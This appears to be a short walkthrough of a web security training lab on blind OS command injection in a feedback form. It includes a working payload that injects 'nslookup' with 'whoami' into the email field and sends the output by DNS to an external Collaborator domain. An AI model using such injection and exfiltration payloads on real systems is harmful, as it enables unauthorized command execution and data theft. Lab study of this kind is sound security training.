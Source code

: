 *This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.*

Submitted a feedback and sent the request from *Proxy* to *Repeater*. 

I decided to inject a payload to perform a DNS lookup and output the contents of `whoami` to the *Collaborator* server. My payload is as such:
`|| nslookup `whoami.`67bxhm1wtd0hs2mjsw8qghrfp6vxjn7c.oastify.com &`
I URL encoded the payload and injected it at each client input, checking the polls in *Collaborator*:
![[Screenshot 2024-05-09 at 1.26.38 PM.png]]
Injecting the payload at the `email` input triggered a DNS lookup as seen below. 
![[Screenshot 2024-05-09 at 1.34.26 PM.png]]
Submitting the string appended to the *Collaborator* server URL solves the lab!

